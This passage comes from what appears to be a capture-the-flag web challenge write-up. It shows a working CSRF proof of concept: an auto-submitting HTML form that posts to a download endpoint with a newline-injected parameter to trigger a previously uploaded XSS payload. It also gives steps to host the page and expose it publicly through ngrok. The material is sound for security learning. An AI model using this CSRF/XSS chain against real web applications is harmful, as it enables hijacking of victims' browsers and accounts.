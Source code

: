 We copy the file id return in server response:

![](/uploads/wgmy2024/myfile2.png)

Craft a CSRF HTML file that will auto submit POST request, that will trigger the uploaded XSS payload! `name` parameter put newline character to let it ignore the `Content-Disposition` header:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/download.php" method="POST">
      <input type="hidden" name="name" value="&#10;" />
      <input type="hidden" name="id" value="67b1e3b346e1580419df9bee35d3b04a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Run `python3 -m http.server` to host your CSRF script into localhost:8000/csrf.html then run `ngrok http 8000` to expose our web server to a public address:
